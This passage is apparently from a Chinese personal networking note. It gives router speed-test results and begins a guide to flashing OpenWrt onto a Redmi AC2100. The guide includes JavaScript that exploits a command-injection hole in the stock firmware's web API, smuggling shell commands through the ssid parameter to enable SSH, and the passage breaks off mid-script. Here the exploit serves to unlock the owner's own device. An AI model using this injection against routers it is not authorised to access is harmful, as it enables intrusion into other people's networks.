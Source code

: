 将 r4a 替换掉后
| 测试目的 | src       | dst       | speed(Mb/s) | 备注 |
| -------- | --------- | --------- | ----------- | ---- |
| p2w      | ryzen     | p2w       | **936**     |      |
|          | p2w       | ryzen     | ***577***   |      |
| 隧道性能 | p2w       | ax6s      | 150         |      |
|          | ax6s      | p2w       | 250         |      |
| 隧道性能 | ryzen     | tianyi310 | **295**     |      |
|          | tianyi310 | ryzen     | **173**     |      |
|          | s3pro     | ryzen     | 256         |      |
| 780/886  | s3pro     | p2w       | **370**     |      |
|          | ryzen     | s3pro     | 274         |      |

## 具体型号刷机过程

### Redmi AC2100 刷 Openwrt

[[OpenWrt Wiki] Xiaomi Redmi Router AC2100](https://openwrt.org/toh/xiaomi/xiaomi_redmi_router_ac2100)

#### 1. 确认 stock 系统版本

确认系统版本是否为 2.0.23，如果不是，则在系统内手动升级到该版本 <http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin>

#### 2. 获得 ssh

使用 web 漏洞，获得 ssh

```js
// Work for RedMi 2100 firmware 2.0.23
// http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin

function getSTOK() {
    let match = location.href.match(/;stok=(.*?)\//);
    if (!match) {
        return null;
    }
    return match[1];
}

function execute(stok, command) {
    command = encodeURIComponent(command);
    let path = `/cgi-bin/luci/;stok=${stok}/api/misystem/set_config_iotdev?bssid=SteelyWing&user_id=SteelyWing&ssid=-h%0A${command}%0A`;
    console.log(path);
    return fetch(new Request(location.origin + path));
}

function enableSSH() {
    stok = getSTOK();
    if (!stok) {
        console.error('stok not found in URL');
        return;
    }
    console.log(`stok = "${stok}"`);

    password = prompt('Input new SSH password');
    if (!password) {
```